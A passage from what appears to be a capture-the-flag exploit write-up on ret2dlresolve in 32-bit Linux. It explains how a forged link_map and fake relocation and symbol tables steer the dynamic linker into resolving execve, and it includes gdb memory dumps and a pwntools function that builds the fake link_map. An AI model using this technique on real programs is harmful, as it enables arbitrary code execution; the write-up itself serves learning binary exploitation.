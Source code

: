 ```c 
(((refsym) == ((void*)0) ? 0 : (__builtin_expect (((refsym)->st_shndx == 0xfff1), 0) ? 0 : ((1) || (l) ? (l)->l_addr : 0)) + (refsym)->st_value))
```

After cleaning up the checks the return value is basically `link_map->l_addr + refsym->st_value`
We have full control of link_map and refsym so we can use this second case to resolve execve. 

If we manage to set st_value to a libc address then we can brute force libc offsets using l_addr. 

We can set the fake symtab to point to the GOT entry of __libc_start_main and l_addr to `execve - __libc_start_main's address`. Hence when they are added it should return the address of execve. This means that we do not need to set up a STRTAB or SYMTAB, we just need a jmprel

One thing to note about the link map's l_info array, it does not point to the symtab or jmprel but rather a pointer to a struct that contains a pointer as well as its identifier.

```bash
gef➤  x/2wx (*(link_map*)0x0804bb70).l_info[23]
0x804bbf8:      0x00000017      0x0804bbff                <==== Fake jmptab
gef➤  x/2wx (*(link_map*)0x0804bb70).l_info[6]
0x804bbf0:      0x00000006      0x0804b010                <==== Fake Symtab
gef➤  p *(Elf32_Rel*)0x0804bbff
$1 = {
  r_offset = 0xf8de3808,                                  <==== This value will be explain later
  r_info = 0x707
}
gef➤  p *(Elf32_Sym*)0x0804b010
$2 = {
  st_name = 0xf7d3e5d0,
  st_value = 0xf7cbd560,
  st_size = 0xf7d0f970,
  st_info = 0x30,
  st_other = 0x75,
  st_shndx = 0xf7e1
}
```

This means that in our link map we only need a l_addr, and l_info with strtab, symtab and jmprel pointers. Outside of the link map we need to construct the jmprel structure as well as the extra structs to point to our tables. 

```python 
def make_link_map(fake_addr, offset_2_addr):
    """
    link_map 
        l_info 

    symtab( NOT NEEDED)
    jmptab
    strtab (NOT NEEDED)
    """
    map_size =  128

    fake_link_map = b'' 
    fake_link_map += p32(offset_2_addr)

    fake_link_map += fake_link_map.ljust(0x30, b'\x00') 

    # *strtab, pointer to pointer of strtab, NOT NEEDED so put anything
    fake_link_map += p32(exe.bss()) 

    # *symtab, pointer to pointer of symtab
    fake_link_map += p32(fake_addr + map_size ) 
    fake_link_map = fake_link_map.ljust(124, b'\x00') 
    # *jmptab, pointer to pointer of jmptab
    fake_link_map += p32(fake_addr + map_size+8) 

```